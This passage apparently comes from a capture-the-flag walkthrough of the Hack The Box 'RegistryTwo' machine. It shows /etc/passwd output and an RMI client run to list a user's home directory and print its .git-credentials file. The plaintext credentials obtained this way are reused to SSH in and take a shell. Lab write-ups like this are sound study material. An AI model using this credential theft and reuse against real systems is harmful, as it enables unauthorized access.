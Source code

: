 ```bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
clamav:x:111:113::/var/lib/clamav:/bin/false
rmi-service:x:999:998::/home/rmi-service:/bin/false
developer:x:1001:1001:,,,:/home/developer:/bin/bash
_laurel:x:998:997::/var/log/laurel:/bin/false
```

Now lets try to read the `home`directroy of the user developer !!

```bash
┌──(ar0x㉿kali)-[~/…/Machines/RegistryTwo/RMIClientTest/src]
└─$ ./runner.sh
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Dec 02, 2023 9:34:44 AM com.htb.hosting.rmi.RMIClientWrapper get
INFO: Connecting to registry.webhosting.htb:9002
home
.cache
.bash_logout
.bashrc
.bash_history
.git-credentials
user.txt
.gnupg
.profile
.vimrc
```

Oh, i guess we found something. `.git-credentials` thats great, lets print this shit and see what we can do with it.

```bash
┌──(ar0x㉿kali)-[~/…/Machines/RegistryTwo/RMIClientTest/src]
└─$ ./runner.sh
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Dec 02, 2023 9:41:46 AM com.htb.hosting.rmi.RMIClientWrapper get
INFO: Connecting to registry.webhosting.htb:9002
https://irogir:qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9@github.com
```

Nice we got creds for `irgoir`/`developer`

```
irogir:qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9
```

Now its easy lets ssh to the box with found Creds.
Fuck yea, finally we got a shell on the host system and of course the user flag.

```bash
┌──(ar0x㉿kali)-[~/…/usr/local/tomcat/webapps]
└─$ ssh developer@webhosting.htb
developer@webhosting.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec  2 09:43:54 UTC 2023

  System load:  0.08              Users logged in:                0
  Usage of /:   76.2% of 7.71GB   IP address for eth0:            10.129.229.28
  Memory usage: 60%               IP address for br-59a3a780b7b3: 172.19.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    241

```